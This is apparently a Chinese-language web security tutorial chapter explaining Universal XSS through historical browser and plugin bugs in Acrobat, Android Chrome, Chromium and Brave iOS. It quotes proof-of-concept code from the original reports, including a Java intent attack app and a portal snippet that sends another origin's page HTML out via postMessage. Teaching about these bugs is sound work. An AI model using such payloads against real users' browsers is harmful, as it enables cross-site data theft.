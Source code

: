 ```yaml
---
sidebar_position: 12
---
```


# 最強的 XSS：Universal XSS

我們前面提到的所有 XSS 的相關漏洞，問題幾乎都是出在網站本身，是因為網站的疏忽才導致了漏洞的發生，使得攻擊者可以在該網站上執行 JavaScript 程式碼。

但是有另外一種 XSS 就更厲害了，如同標題所說，是最強的 XSS。

原因很簡單，因為這種 XSS 攻擊的對象不是網站本身，而是瀏覽器或是內建的 plugin。

因為是瀏覽器的漏洞，所以網站本身不需要有任何問題，就算只是一個純靜態的網頁都可以被執行 XSS。藉由攻擊瀏覽器，可以達到的影響是：「無論在哪個網站都可以執行程式碼」，因此這種攻擊方式被稱為 Universal XSS，又簡稱 UXSS。

那 UXSS 的漏洞是怎麼產生的？我們來看幾個範例。

## 2006 年的 Firefox 的 Adobe Acrobat plugin

在一篇名為 [Subverting Ajax](https://fahrplan.events.ccc.de/congress/2006/Fahrplan/attachments/1158-Subverting_Ajax.pdf) 的 paper 中，描述了一個針對 Firefox 的 UXSS。

Firefox 上的 Adobe Acrobat plugin 含有漏洞，沒有做好參數的檢查。在載入 PDF 時，可以在網址列後面帶上 `#FDF=javascript:alert(1)` 的參數，就能在該 PDF 中產生 XSS。

舉例來說，`https://example.com/test.pdf#FDF=javascript:alert(1)`，只要載入這個網址，就能在 `https://example.com` 這個 origin 上面執行 JavaScript 程式碼，這就是所謂的 UXSS。

雖然說原本的論文沒有提到細節，但我猜背後的原理大概就是這個 plugin 會用 `FDF` 這個參數帶的值去執行 `window.open` 之類的，所以就可以利用 javascript: 偽協議去執行程式碼。

## 2012 年的 Android Chrome 的 UXSS

Takeshi 在 2012 年回報了一個漏洞：[Issue 144813: Security: UXSS via com.android.browser.application_id Intent extra](https://bugs.chromium.org/p/chromium/issues/detail?id=144813)。

在 Android 的世界中，有一種東西叫做「intent」，它代表的是一種「意圖」，例如說想開啟一個新的畫面，就要傳送一個「我想開啟新畫面」的 intent。

而如果想要打開 Chrome 並且瀏覽特定頁面的話，就可以照著這個意圖寫出相對應的程式碼：

``` java
// 宣告新的 intent
Intent intent = new Intent("android.intent.action.VIEW");

// intent 要傳給的對象是 Chrome app
intent.setClassName("com.android.chrome", "com.google.android.apps.chrome.Main");

// 設置要開啟的 URL
intent.setData(Uri.parse("https://example.com"));

// 開啟
startActivity(intent);
```

而 2012 年時就有人發現了可以先開啟 `https://example.com`，再開啟一個 `javascript:alert(1)`，就會變成在 `https://example.com` 這個網址上執行程式碼，形成了 UXSS 漏洞。

完整程式碼長這樣（以下程式碼來自原始報告）：

``` java
package jp.mbsd.terada.attackchrome1;

import android.app.Activity;
import android.os.Bundle;
import android.content.Intent;
import android.net.Uri;

public class Main extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        doit();
    }

    public void doit() {
        try {
            // Firstly, force chrome app to open a target Web page
            Intent intent1 = getIntentForChrome("http://www.google.com/1");
            startActivity(intent1);

            // Wait a few seconds
            Thread.sleep(5000);

            // JS code to inject into the target (www.google.com)
            String jsURL = "javascript:alert('domain='+document.domain)";

            Intent intent2 = getIntentForChrome(jsURL);

            // Need a trick to prevent Chrome from loading the new URL in a new tab
            intent2.putExtra("com.android.browser.application_id", "com.android.chrome");

            startActivity(intent2);
        }
        catch (Exception e) {}
    }

    // Get intent to invoke chrome app
    public Intent getIntentForChrome(String url) {
        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("com.android.chrome", "com.google.android.apps.chrome.Main");
        intent.setData(Uri.parse(url));
        return intent;
    }
}
```
## 2019 年 Chromium 透過 portal 的 UXSS

2019 年的時候 Michał Bentkowski 回報了一個漏洞：[Issue 962500: Security: Security: Same Origin Policy bypass and local file disclosure via portal element](https://bugs.chromium.org/p/chromium/issues/detail?id=962500&q=sop%20bypass&can=1)，是經由最新的功能 `<portal>` 執行的 UXSS。

這個漏洞的成因跟上面那個 Android 的一樣，範例程式碼如下（來自於原始報告）：

``` js
const p = document.createElement('portal');
p.src = 'https://mail.google.com';
// after a while:
p.src = 'javascript:portalHost.postMessage(document.documentElement.outerHTML,"*")';
// the code above will get executed in the context of https://mail.google.com
```

當你在 portal 內載入一個網址以後，如果再載入 `javascript:`，會變成是在剛剛載入的網址的 origin 去執行 JavaScript，換句話說，你可以在任意的網址上執行 JavaScript，所以就是一個 UXSS，而這個漏洞拿到了 10000 美金的賞金。

## 2021 年 Chromium 透過下載圖片觸發的 UXSS

當你在 Chromium 對一張圖片按下右鍵並選擇下載圖片時，Chromium 背後在做的事情是動態執行一段 JavaScript 的程式碼，裡面會呼叫 internal 的 JavaScript 函式，像這樣：

``` js
__gCrWeb.imageFetch.getImageData(id, '%s')
```

其中 `%s` 就是圖片檔名，而這個檔名忘了做過濾，所以如果檔名是 `'+alert(1)+'` 的話，程式碼就會變成：

``` js
__gCrWeb.imageFetch.getImageData(id, ''+alert(1)+'')
```

就執行了 `alert(1)`，當然這邊可以替換成任意程式碼，`alert(1)` 只是示範而已。

除此之外，如果現在有個 A 網域，裡面用 iframe 嵌入 B 網域，當你在 B 網域下載圖片時，這一段動態產生的 JavaScript 是在 top level window 也就是 A 網域的視窗執行的。

也就是說，利用這個漏洞，如果我能夠在別的網域裡面用 iframe 嵌入我的攻擊網址，就能在那個網域上面執行任意程式碼，構成了 UXSS。

原始的報告跟 PoC 可以參考 Muneaki Nishimura 回報的 [Issue 1164846: Security: ImageFetchTabHelper::GetImageDataByJs allows child frames to inject scripts into parent (UXSS)](https://bugs.chromium.org/p/chromium/issues/detail?id=1164846)

## 多個 Brave 瀏覽器 iOS app 的 UXSS

Brave 是一個基於 Chromium 且強調隱私的瀏覽器，背後的創辦人是 JavaScript 之父 Brendan Eich，而 Brave 的 iOS app 之前被日本的資安研究員 Muneaki Nishimura 發現了多個 UXSS 的漏洞（上面那個 Chromium 的 UXSS 也是他回報的）。

漏洞發生的原因跟上面講的很像，都是由於 app 本身動態執行了 JavaScript 程式碼，而這些 JavaScript 程式碼的輸入又沒有經過過濾，於是就導致了 UXSS 的產生。

例如說可能有段程式碼是這樣：

``` swift
self.tab?.webview?.evaluateJavaScript("u2f.postLowLevelRegister(\(requestId), \(true), '\(version)')")
```

而 version 是我們可以控制的，與此同時這一段 script 又是執行在 top level，於是 sub frame 就可以對 parent 做攻擊，在其他 origin 上執行 XSS。

更多細節可以參考 Muneaki Nishimura 的投影片 [Brave Browserの脆弱性を見つけた話（iOS編）](https://speakerdeck.com/nishimunea/brave-browsernocui-ruo-xing-wojian-tuketahua-iosbian)

## 小結

像是這種 UXSS，通常網站本身是無能為力的，因為漏洞並不是出在網站，而是出在瀏覽器。

而對瀏覽器來說這其實也是一個影響力很大的漏洞，你仔細想想，如果攻擊者真的利用了 UXSS，他可以讀你的 gmail，讀你的 Facebook 訊息，把你的資料全部都拿走，是很可怕的一件事。

身為使用者，我們能做的就是時時刻刻把瀏覽器更新到最新版本，並且希望廠商趕快把漏洞修復。

UXSS 的嚴重程度比較高，案例也比較少，大多數都是年代久遠（例如說十年前）的漏洞，大家可以自己試著找找看以前發生過的 UXSS 漏洞（跟上面不重複），並貼在留言區跟其他人分享。
